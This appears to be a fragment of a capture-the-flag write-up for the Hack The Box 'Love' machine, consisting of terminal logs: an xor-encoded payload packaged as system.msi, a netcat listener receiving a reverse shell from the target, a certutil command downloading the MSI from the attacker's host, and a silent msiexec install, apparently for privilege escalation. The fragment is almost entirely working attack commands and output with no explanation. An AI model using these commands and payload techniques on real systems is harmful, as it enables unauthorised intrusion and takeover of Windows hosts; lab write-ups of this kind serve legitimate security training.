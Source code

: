 ```shell
x64/xor succeeded with size 783 (iteration=7)
x64/xor succeeded with size 823 (iteration=8)
x64/xor chosen with final size 823
Payload size: 823 bytes
Final size of msi file: 159744 bytes
Saved as: system.msi
```

```shell
┌──(kali@kali)-[~/htb/love/blog]
└─$ sudo nc -nvlp 4445 
[sudo] password for kali: 
listening on [any] 4445 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.239] 50992
Microsoft Windows [Version 10.0.19042.867]
(c) 2020 Microsoft Corporation. All rights reserved.


C:\xampp\htdocs\omrs\images>whoami
whoami   
love\phoebe    

C:\xampp\htdocs\omrs\images>certutil.exe -urlcache -f http://10.10.14.6/system.msi system.msi
certutil.exe -urlcache -f http://10.10.14.6/system.msi system.msi
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\xampp\htdocs\omrs\images>dir
dir
    Volume in drive C has no label.
    Volume Serial Number is 56DE-BA30

    Directory of C:\xampp\htdocs\omrs\images

08/07/2021  12:26 PM    <DIR>          .
08/07/2021  12:26 PM    <DIR>          ..
08/06/2021  07:48 PM           159,744 admin.msi
05/18/2018  08:10 AM             4,240 facebook-profile-image.jpeg
04/12/2021  03:53 PM                 0 index.html.txt
01/27/2021  12:08 AM               844 index.jpeg
08/06/2021  07:33 PM         1,919,488 privilege.exe
08/24/2017  04:00 AM            26,644 profile.jpg
08/06/2021  07:06 PM             7,168 reverse1.exe
08/07/2021  12:14 PM             7,168 shell.exe
08/07/2021  12:26 PM           159,744 system.msi
                9 File(s)      2,285,040 bytes
                2 Dir(s)   3,879,710,720 bytes free

C:\xampp\htdocs\omrs\images>msiexec /quiet /qn /i system.msi
msiexec /quiet /qn /i system.msi

C:\xampp\htdocs\omrs\images>
```

